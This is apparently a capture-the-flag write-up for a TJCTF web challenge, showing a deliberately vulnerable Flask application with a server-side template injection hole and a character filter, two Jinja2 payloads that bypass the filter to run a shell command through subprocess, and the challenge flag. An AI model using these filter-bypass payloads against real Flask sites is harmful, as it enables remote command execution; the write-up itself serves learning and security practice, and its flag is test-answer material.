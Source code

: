 # Congenial Octo Couscous
**Web, 70pts**
> Written by avz92
>
> Team Congenial-Octo-Couscous is looking to replace one of its members for the Battlecode competition, who carried the team too hard and broke his back. Until a neural net can take his place, the team wants a 4th member. Figure out how to join the team and read the secret strategy guide to get the flag.

--------------------------------------------------------------------------------

flask ssti, 키워드 및 정수 필터링

- https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

```python
from flask import Flask, render_template, request, render_template_string
from multiprocessing import Pool
import random
import re

app = Flask(__name__,template_folder='templates')
app.config['SERVER_FILEPATH']='/secretserverfile.py'

def check_chars(text=''):
    if text=='':
        return False
    
    if '{' in text or '}' in text:
        text2=re.sub(r'\s','',text).lower()
    
    illegal = ['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']
    
    if any([x in text2 for x in illegal]):
        return False
    
    for i in range(10):
        if str(i) in text:
            return False
    
    return text
    
def async_function(message):
    return render_template_string(message)
    
app.jinja_env.globals.update(check_chars=check_chars)

@app.route('/')
def main():
    return render_template('index.html')
    
@app.route(app.config['SERVER_FILEPATH'])
def server():
    return open('server.py').read()
    
@app.route('/strategyguide.txt')
def guide(): #TODO: add authentication to endpoint return 'ACCESS DENIED'
    
@app.route('/apply',methods=["POST"])
def apply():
    if request.form.get('username') is not None:
        if check_chars(request.form.get('username')):
            message='Hello, '+check_chars(request.form.get('username'))+'. Your application will be processed in '+ str(random.randint(3,7)) +' weeks.'
            result=None
            with Pool(processes=1) as pool:
                return_val=pool.apply_async(async_function,(message,))
                try:
                    result=return_val.get(timeout=1.50)
                except:
                    result='Server Timeout'
                    return result
        else:
            return 'Server Error'
            
if __name__ == "__main__":
    app.run(debug=True)
```

payload
```
Payload 1
{{()|attr(request.form.get('fname'))|attr('__base__')|attr(request.form.get('lname'))()|attr('__getitem__')((true+true)**(true+true+true+true+true+true+true)+(true+true)**(true+true+true+true+true+true)+true+true+true+true+true+true+true)('cat strategyguide.txt',shell=True,stdout=-(true))|attr('communicate')()}}

Payload 2
{{''|attr(request.form.get('fname'))|attr('__mro__')|attr('__getitem__')(true)|attr(request.form.get('lname'))()|attr('__getitem__')((true+true)**(true+true+true+true+true+true+true)+(true+true)**(true+true+true+true+true+true)+true+true+true+true+true+true+true)('cat strategyguide.txt',shell=True,stdout=-(true))|attr('communicate')()}}
```

![Exploit](exploit.png)

```
Flag: tjctf{c0ng3n1al_500iq_str4ts_ez_dub}
```